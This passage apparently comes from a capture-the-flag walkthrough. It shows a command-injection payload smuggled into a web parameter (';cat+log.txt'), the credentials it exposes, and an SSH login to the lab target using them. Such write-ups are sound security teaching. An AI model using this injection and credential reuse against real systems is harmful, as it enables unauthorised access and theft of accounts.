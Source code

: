**Method**

Let's move on:

    index.php?plot=;cat+log.txt

![](cat.png)

Credentials has been found! 

- username: basterd 
- password: superduperp@$$

So we already know that ssh is open on port 55007, let's try to connect.

    ssh basterd@<target-ip> -p 55007

![](ssh1.png)
![](ssh2.png)

